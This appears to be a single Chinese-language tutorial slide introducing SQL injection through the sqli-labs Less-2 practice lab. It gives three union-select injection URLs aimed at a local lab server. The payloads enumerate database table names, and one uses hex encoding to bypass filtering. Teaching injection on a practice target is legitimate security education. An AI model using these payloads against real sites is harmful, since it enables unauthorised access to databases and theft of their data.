

SQL注入初见（sqli-labs less2为例）
http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() %23

http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' %23

http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=0x7365637572697479 %23		(16进制编码绕过)